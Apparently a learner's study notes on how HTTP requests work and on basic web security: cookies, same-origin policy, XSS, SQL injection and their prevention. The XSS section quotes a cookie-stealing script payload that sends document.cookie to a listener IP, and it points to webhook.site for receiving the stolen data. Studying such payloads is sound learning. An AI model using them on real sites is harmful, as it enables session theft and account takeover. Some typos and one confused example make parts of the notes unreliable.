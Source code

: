 # HTTP request 

1. URL
- protocol: https
- domain name 
- port number
- path to resource: after /
- value of query parameter "num"
- anchor

2. Browser looks up IP address corresponding to the domain name using DNS
3. Establishes a connection to the web server using the IP address and web server
4. Make HTTP request
- HTTP method: GET or POST
- Path to resource and parameters

## Request method 
### GET
- retrieves the resource
- pulling information from database
- entering the URL on the browser should not modify (eg delete, add data) contents on the server 

### POST
- sends data (eg name of file, json xml) to the resource for the server to do something with 
- include data to be sent

### other methods 
- PUT
- DELETER
- HEAD
- etc

## HTTP Headers
- allows client and server to define additional info about HTTP request / response

- host: identifies domain and port where the request is being sent 
- content-length: size of message body in bytes, so that server knows when to stop processing the request 
- referer[sic]: identifies webpage that requested the resource 
- user-agent: identifies the client software (e.g Chrome, Firefox) that made the request 
- cookie: any cookies the client has that are associated with the server

## Over to the server 
- server receives HTTP request, parses it

## Retrieving data
- can be stored on file system or database
- types: relational, document-oriented, graph etc
- language to query relational databases: Structured Query Language (SQL)
- different tables linked together by common data

## Presenting data
- after the data is retrieved, it needs to be assembled into a format the browser can display
- HTML (tags, attributes, content)
- HTML by itself is static. cannot dynamically make things appear and disappear, change info real-time. (eg have to click to get to the next page instead of the page changing real-time as you type eg in the search bar)

## JavaScript
- scripting language to augment webpages with dynamic behaviour
- can be included within HTML or from an external source
```JavaScript
<script src="/path/to/script.js"></script> // run script from external URL on the page 
```

## Delivering the response 
- send the response to the client (browser)
- status code to indicate if it is successful: `HTTP/1.1 200 OK`
- response headers
- response body

### HTTP status codes
- 200 OK

codes begin with 4: client's fault 
- 404 Not Found
- 403 Forbidden (no permission to access)
- 400 Bad Request (incorrect way of making the request)

codes begin with 5: server's end, eg programming error, script not working properly, cannot conenct to databse 
- 500 Internal Server Error 

## Back to the browser 
- browser receives HTML and parses it
- renders page based on http

## Play with HTTP requests using Burp Suite


# Cross-site scripting (XSS) 
https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md 
`<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>`

## Cookies 
- how would you design a system where multiple webpages need authentication with a common set of credentials?
- information sent by browser to server, and server will send the info related to the site
- `setCookies` header
- once issued with a cookie, the browser will send whatever request you make with the server
- if someone takes your cookies, someone can use your identity 

1. HTTP request from client (browser) to server (website)
2. HTTP response + **Set-Cookies** from server to client
3. HTTP request + **Cookies (SessionID)** from client to server
4. HTTP response from server to client 

## Making HTTP requests in JavaScript
- **Fetch API** (old way: xml http requests) for JavaScript to pull information from websites to dynamically update a page
``` JavaScript
response = awaits fetch("/secret");  // background request to get secret page and store in response. (successful authentication + send cookies --> fetch is possible) 
text = await response.text();        // get response text 
console.log(text);
```

```JavaScript
fetch("https://gmail.com")
```
- Not possible
  
## Same origin (scheme + host + port) policy 
- webpages only permitted to access data from other sources if they have the same origin 
- eg https + google.com + 403
- allows attacker to introduce malicious JavaScript within the same origin
- 
- **webhook.site** gives you an URL to infiltrate

## Prevent cross-site scripting 
- fliter user input when it arrives at the server. reject anything that does not conform to expected input
- encode data (eg HTML encoding[https://emn178.github.io/online-tools/html_encode.html], JavaScript encoding) on output, so browser knows which part of html to not execute. using wrong encoding scheme for the context can lead to bypasses 
- set sensitive cookies to HttpOnly so they are not accessible directly by JavaScript. prevents stealing the cookie directly, but still lets attackers do what they want as the user under the origin
- Content Security Policy (http header in http response): tell the browser that browser should only execute certain scripts (eg loaded remotely from particular domains / follow particular format / have particular content)

# SQL injection
- web applications will often have to retrieve data from a database, which often depends on data provided by the user eg retrieving product's details based on ID supplied by user, logging in with username and password

## how to prevent SQL injection 
- root cause of SQL injection is concatenating user input directly with user commands. SQL server cannot tell which is which
- solution: parameterised queries; put placeholders in the query where user data should go and pass in the user data separately at execution time. this way server can differentiate between the two

# Command injection 


# Path traversal 






